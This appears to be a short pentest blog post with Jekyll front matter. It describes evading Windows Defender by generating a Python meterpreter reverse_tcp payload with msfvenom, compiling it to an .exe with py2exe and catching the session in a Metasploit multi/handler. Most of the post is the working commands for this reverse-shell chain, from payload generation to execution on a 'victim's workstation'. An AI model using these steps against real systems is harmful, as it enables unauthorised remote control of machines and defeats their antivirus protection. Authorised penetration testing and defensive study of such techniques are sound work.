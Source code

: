 ```yaml
---
published: true
layout: post
tags:
  - python
  - rev_shell
  - meterpreter
  - windows
---
```


# Summary
{:.no_toc}

* toc
{:toc}

# Introduction

So, the situation, it is possible to download a file to a machine that is being tested as part of a Pentest or other legitimate activity in Windows, and it is even possible to execute it. If we are talking about the latest, tenth version of the OS, then we will run into its Windows Defender, and the likelihood of stumbling upon an antivirus is great. In such a situation, a very convenient and expandable meterpreter will not work, what is the alternative?

## Python
{:id="python"}

Here is the answer. Using Python in conjunction with metasploit and msfvenom allows us to get a decent alternative to the classic meterpreter with most of its convenient features. However we will have to sacrifice some features, it will not be possible to use such commands as getsystem and it will not be possible to migrate to the process.


# Let's start

The general scheme is as follows: we generate the python code using msfvenom, feed it to py2exe, launch the binary on the victim machine and catch the session.
<br><br>
First, install py2exe under version 3.4, since everything above is not supported.
~~~
pip install py2exe
~~~
Or, if you like updating like i do:
~~~
python -3.4 –m pip install py2exe
~~~

<br><br>

Next, create the .py code:
~~~
msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > payload.py
~~~

It is necessary to add "import getpass" to the code, which for some reason does not do the default msfvenom.

<br><br>


Make the .exe file:
<br>
~~~
python34 -m py2exe.build_exe payload.py --bundle-files 0
~~~


And run it on the victim's workstation preliminarily launch handler:<br>
~~~
msfconsole
use exploit/multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set lhost eth0
set lport <PORT>
run
~~~

And we get the command shell:

![Python_shell]({{ site.baseurl }}/assets/img/posts_rus/python_shell.jpg){:class="img"}

# Conclusion
{:id="end"}

A simple and effective way to combat Windows Defender if you do not want to lose the convenient and familiar meterpreter functionality in favor of more native solutions, such as ssh or telnet.
<br><br>
